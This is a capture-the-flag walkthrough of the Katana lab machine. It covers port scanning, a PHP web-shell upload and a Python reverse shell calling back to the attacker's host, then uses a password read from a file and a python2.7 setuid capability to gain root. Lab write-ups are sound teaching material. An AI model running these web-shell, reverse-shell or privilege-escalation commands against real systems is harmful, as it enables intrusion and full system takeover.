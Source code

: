 # Katana

Let’s find the IP Address first >>

![Untitled](Katana/Untitled.png)

```bash
IP : 192.168.249.140
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/katana]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.249.140
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-23 13:09 EDT
Nmap scan report for 192.168.249.140
Host is up (0.00099s latency).
Not shown: 65527 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 894f3a5401f8dcb66ee078fc60a6de35 (RSA)
|   256 ddaccc4e43816be32df312a13e4ba322 (ECDSA)
|_  256 cce625c0c6119f88f6c4261edefae98b (ED25519)
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
|_http-title: Katana X
|_http-server-header: Apache/2.4.38 (Debian)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
7080/tcp open  ssl/http    LiteSpeed httpd
|_http-server-header: LiteSpeed
|_ssl-date: TLS randomness does not represent time
|_http-title: Katana X
| ssl-cert: Subject: commonName=katana/organizationName=webadmin/countryName=US
| Not valid before: 2020-05-11T13:57:36
|_Not valid after:  2022-05-11T13:57:36
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
8088/tcp open  http        LiteSpeed httpd
|_http-server-header: LiteSpeed
|_http-title: Katana X
8715/tcp open  http        nginx 1.14.2
|_http-server-header: nginx/1.14.2
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Restricted Content
|_http-title: 401 Authorization Required
MAC Address: 00:0C:29:2A:70:1F (VMware)
Service Info: Host: KATANA; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

![Untitled](Katana/Untitled%201.png)

![Untitled](Katana/Untitled%202.png)

Now lets try sqlmap and lets dump the whole data →

![Untitled](Katana/Untitled%203.png)

Now after login I have to alter the image file to get the local privileges →

![Untitled](Katana/Untitled%204.png)

Now let’s upload an image and capture the request in burpsuite →

![Untitled](Katana/Untitled%205.png)

Now after forwording the request I successfully uploaded the image file as php file →

![Untitled](Katana/Untitled%206.png)

Now through uploading I can’t able to execute it so ,

Lets try to use other ports and in port 8080 I got file upload so lets exploit it and Lets access that file from uploading in port 8715 as the file was not loading on that same port so →

![Untitled](Katana/Untitled%207.png)

Now lets use it →

`rshell.php` ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/katana]
└─$ cat rshell.php
<?php system($_GET['cmd']);?>
```

![Untitled](Katana/Untitled%208.png)

Now lets try reverse shell python command →

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.249.128",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

In response to that I got this →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/katana]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.249.128] from (UNKNOWN) [192.168.249.140] 47714
bash: cannot set terminal process group (375): Inappropriate ioctl for device                                                                    
bash: no job control in this shell                                                                                                               
www-data@katana:/opt/manager/html$ whoami                                                                                                        
whoami                                                                                                                                           
www-data                                                                                                                                         
www-data@katana:/opt/manager/html$ id                                                                                                            
id                                                                                                                                               
uid=33(www-data) gid=33(www-data) groups=33(www-data)                                                                                            
www-data@katana:/opt/manager/html$ uname -an                                                                                                     
uname -an                                                                                                                                        
Linux katana 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64 GNU/Linux                                                               
www-data@katana:/opt/manager/html$
```

And I got some credentials too →

```bash
www-data@katana:/home/katana$ cat .ssh_passwd
cat .ssh_passwd
katana@katana12345
www-data@katana:/home/katana$
```

Now after changing the user to katana I checked the capabilities and I found this →

```bash
katana@katana:~$ getcap -r / 2>/dev/null                                                                                                         
getcap -r / 2>/dev/null                                                                                                                          
/usr/bin/ping = cap_net_raw+ep                                                                                                                   
/usr/bin/python2.7 = cap_setuid+ep                                                                                                               
katana@katana:~$
```

Now lets use the python os command to get the root →

```bash
katana@katana:~$ /usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'; 
< 'import os; os.setuid(0); os.system("/bin/bash")';
root@katana:~# whoami
whoami
root
root@katana:~# id
id
uid=0(root) gid=1000(katana) groups=1000(katana),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
root@katana:~# cd ~
cd ~
root@katana:~# 
root@katana:~# cd /root
cd /root
root@katana:/root# ls -al
ls -al
total 44
drwx------  4 root root 4096 May 11  2020 .
drwxr-xr-x 18 root root 4096 May 11  2020 ..
-rw-------  1 root root  563 May 11  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwx------  3 root root 4096 May 11  2020 .gnupg
drwxr-xr-x  3 root root 4096 May 11  2020 .local
-rw-------  1 root root  155 May 11  2020 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   22 May 11  2020 root.txt
-rw-r--r--  1 root root   66 May 11  2020 .selected_editor
-rw-r--r--  1 root root  209 May 11  2020 .wget-hsts
root@katana:/root# cat root.txt
cat root.txt
{R00t_key_Katana_91!}
root@katana:/root#
```